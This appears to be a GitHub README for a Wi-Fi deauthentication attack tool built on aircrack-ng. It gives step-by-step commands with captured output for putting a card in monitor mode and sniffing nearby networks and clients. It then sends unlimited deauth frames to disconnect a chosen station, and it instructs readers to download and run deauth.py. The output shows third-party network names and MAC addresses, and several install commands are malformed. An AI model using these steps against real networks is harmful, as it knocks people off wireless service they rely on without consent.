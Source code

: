 [![GitHub issues](https://img.shields.io/github/issues/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/issues)
[![GitHub forks](https://img.shields.io/github/forks/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/network)
[![GitHub stars](https://img.shields.io/github/stars/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/stargazers)

# Introduction
Wifi deauthentication attack allows attackers to send frames from an access point to a station,even though the attack is not in the network.

Actually, send deauthentication frame is a normal functionality on all routers, almost all routers need to send special frames to inform rogue station to get out of network.

# Environment
Operation System: Kali Linux

# Requirement
1. aircrack-ng
    ```
    su apt-get install aircrack-ng
    ```
    
2. ifconfig
    ```
    su apt-get install net-tools
    ```

3. iwconfig
    ```
    su sudo apt install wireless-tools
    ```

4. mac_address.csv

    the *mac_address.csv* contains OUI(Orgnazition Unique identifier)s and corresponds company names. first column is OUI and second column is Company.
    
    format:
    ```
    oui,company
    xx:xx:xx,xxx
    xx:xx:xx:x,xxx
    ```
    
    I downloaded *mac_address.csv* from [https://macaddress.io/database/macaddress.io-db.csv](https://macaddress.io/database/macaddress.io-db.csv), edit the file to only contain *oui* and *company* column,rename the file to *macaddress.csv*. then move the *macaddress.csv* file into the same directory as *deauth.py*.
    

# The Core Concept

This project completely builds on `aircrack-ng` package. below is core steps how to pose a deauthentication attack on the shell.

1. check the wireless interface name

    ```
    iwconfig
    ```
    **output:**
    ```
    eth0      no wireless extensions.
    wlan0     IEEE 802.11  ESSID:"Tenda_5A1D80"  
              Mode:Managed  Frequency:2.427 GHz  Access Point: B4:0F:3B:5A:1D:81   
              Bit Rate=135 Mb/s   Tx-Power=22 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Encryption key:off
              Power Management:on
              Link Quality=50/70  Signal level=-60 dBm  
              Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
              Tx excessive retries:0  Invalid misc:25   Missed beacon:0
    lo        no wireless extensions.
    ```

2. put wireless interface into monitor mode

    ```
    airmon-ng start wlan0
    ```
    **output:**
    ```
    Found 3 processes that could cause trouble.
    Kill them using 'airmon-ng check kill' before putting
    the card in monitor mode, they will interfere by changing channels
    and sometimes putting the interface back in managed mode
      PID Name
      501 NetworkManager
      598 wpa_supplicant
      643 dhclient
    PHY	Interface	Driver		Chipset
    phy0	wlan0		iwlwifi		Intel Corporation Wireless 3165 (rev 79)
    		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
	    	(mac80211 station mode vif disabled for [phy0]wlan0)
    ```

3. check the wireless interface name again

    Normally, the step2 will change the wireless interface's name. in the majority of cases, it will append `mon` on the previous name's end.
    ```
    iwconfig
    ```
    **output:**
    ```
    wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=0 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
    eth0      no wireless extensions.
    lo        no wireless extensions.
    ```

4. sniff data on traffics
    ```
    airodump-ng wlan0mon
    ```
    **output:**
    ```
    CH  4 ][ Elapsed: 0 s ][ 2019-12-27 07:47                                         
    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    B4:0F:3B:5A:1D:81  -56        3        0    0   4  270  WPA2 CCMP   PSK  Tenda_5A1D80
    FC:7C:02:3E:9C:33  -79        3        0    0   3  130  WPA2 CCMP   PSK  ChinaNet-YhfA
    94:D9:B3:01:99:32  -79        1        0    0   1  270  WPA2 CCMP   PSK  TP-LINK_9932
    BSSID              STATION            PWR   Rate    Lost    Frames  Probe
    B4:0F:3B:5A:1D:81  88:78:73:D9:D4:BF  -34    0 - 6e     0        1
    94:D9:B3:01:99:32  1C:C3:EB:26:25:45  -81    0 - 1      0        2
    FC:7C:02:3E:9C:33  5C:CF:7F:33:56:78  -81    0 - 1      0        4
    ```


5. sniff data on specific network traffic

    ```
    airodump-ng -d B4:0F:3B:5A:1D:81 -c 4 wlan0mon
    ```
    **output:**
    ```
    CH  4 ][ Elapsed: 0 s ][ 2019-12-27 07:52                                         
    BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    B4:0F:3B:5A:1D:81  -51   0       11      117    0   4  270  WPA2 CCMP   PSK  Tenda_5A1D80
    BSSID              STATION            PWR   Rate    Lost    Frames  Probe   
    B4:0F:3B:5A:1D:81  78:0F:77:89:FD:58   -1   54 - 0      0        2 
    B4:0F:3B:5A:1D:81  E0:37:BF:C7:11:F3  -70    0 -24e     0        3   
    B4:0F:3B:5A:1D:81  74:B5:87:DB:84:5F  -68    0e-36      0       20       
    B4:0F:3B:5A:1D:81  88:78:73:D9:D4:BF  -34    0 - 1e     0      109       
    ```

6. send deauthentication frames

    ```
    aireplay-ng --deauth 0 -a B4:0F:3B:5A:1D:81 -c 78:0F:77:89:FD:58 wlan0mon
    ```
    **output:**
    ```
    07:54:33  Waiting for beacon frame (BSSID: B4:0F:3B:5A:1D:81) on channel 4
    07:54:34  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|55 ACKs]
    07:54:34  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|59 ACKs]
    07:54:35  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|59 ACKs]
    07:54:35  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 1|53 ACKs]
    07:54:36  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|51 ACKs]
    07:54:37  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|56 ACKs]
    07:54:37  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|53 ACKs]
    07:54:38  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|53 ACKs]
    07:54:38  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|53 ACKs]
    07:54:39  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 2|54 ACKs]
    ```

# How to use deauth.py
1. download deauth

    ```
    su apt-get wget https://codeload.github.com/voltwu/WIFI-Deauthentication-Attack/zip/master
    ```
2. unzip it
    ```
    unzip WIFI-Deauthentication-Attack-master.zip
    ```
    
3. run it with python3.x

    ```
    python3 deauth.py
    ```

# Disclaimer
Don't use this project to do any illegal things. it's only used for the study. responsibilities arising from the use of this project have nothing to do with the author.


